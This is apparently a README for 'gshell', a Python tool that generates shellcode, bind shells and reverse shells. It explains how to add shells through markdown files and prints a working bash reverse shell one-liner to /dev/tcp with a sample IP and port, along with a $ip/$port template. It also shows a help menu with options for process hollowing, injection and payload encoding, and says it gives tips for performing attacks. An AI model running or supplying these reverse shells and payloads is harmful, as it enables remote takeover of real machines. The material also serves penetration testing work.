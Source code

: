 
**It is limitless, feel free to add as many as you desire!**

**The shells are stored in markdown files as it makes it easy for everyone.**

You can add more bind shells by adding markdown code blocks the following file:

```sh
shells/bind_shells.md
```

You can also add more reverse shells by adding markdown code blocks the following file:

```sh
shells/reverse_shells.md
```

These can be one-liners and multi-liners, it doesn't matter. You can even add C# multi-liners code blocks if you want.

Here is a reverse shell example command:

```bash
bash -i >& /dev/tcp/192.168.10.11/433 0>&1
```

To add another shell simply replace the IP address and the port placeholders or variables values with these placeholders in your code or command:

- `$ip`: IP address
- `$port`: Port number

Here is an example:

```
bash -i >& /dev/tcp/$ip/$port 0>&1
```

> Note: It also offers advice and tips for performing and troubleshooting attacks.

# Overview

This is the help menu:

```powershell
PS C:\gshell> python .\gshell.py -h                                       
usage: gshell.py [-i <IP ADDRESS>] [-p <PORT NUMBER>] [-s <SHELL TYPE>] [-r] [-b] [--hollowing] [--injector] [--shellcode] [--srev] [--sbind] [--windows] [--linux] [--base64] [--base32] [--base16] [--url]
                 [--no-block] [-l] [-a] [-h]

 ██████  ███████ ██   ██ ███████ ██      ██
██       ██      ██   ██ ██      ██      ██
██   ███ ███████ ███████ █████   ██      ██
██    ██      ██ ██   ██ ██      ██      ██
 ██████  ███████ ██   ██ ███████ ███████ ███████

Generate shellcodes, bind shells and/or reverse shells with style

            Version: 1.2
            Author: nozerobit
            Twitter: @nozerobit

Options:
  -i <IP ADDRESS>, --ip <IP ADDRESS>
                        Specify the IP address
  -p <PORT NUMBER>, --port <PORT NUMBER>
                        Specify the port number
  -s <SHELL TYPE>, --shell <SHELL TYPE>
                        Specify a shell type (python, nc, bash, etc)

```